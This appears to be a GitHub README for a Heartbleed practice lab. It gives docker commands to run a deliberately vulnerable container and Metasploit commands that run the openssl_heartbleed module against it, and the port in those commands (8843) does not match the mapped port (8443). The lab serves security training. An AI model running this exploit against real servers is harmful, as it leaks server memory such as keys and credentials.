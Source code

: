 # HeartBleed Lab

Video PoC :- https://youtu.be/qYSAgtG81Ic


# Usage

docker pull jas9reet/heartbleed

docker run -d -p 8443:443 jas9reet/heartbleed

docker ps

docker exec -it container id /bin/bash

/etc/init.d/mysql start

# Vulnerable Application Access

YOUR-IP-ADDRESS:8443

# Exploitation Commands

msfconsole
use auxiliary/scanner/ssl/openssl_heartbleed
set VERBOSE true
set RHOSTS Vulnerable-IP-ADDRESS
set RPORT 8843
run
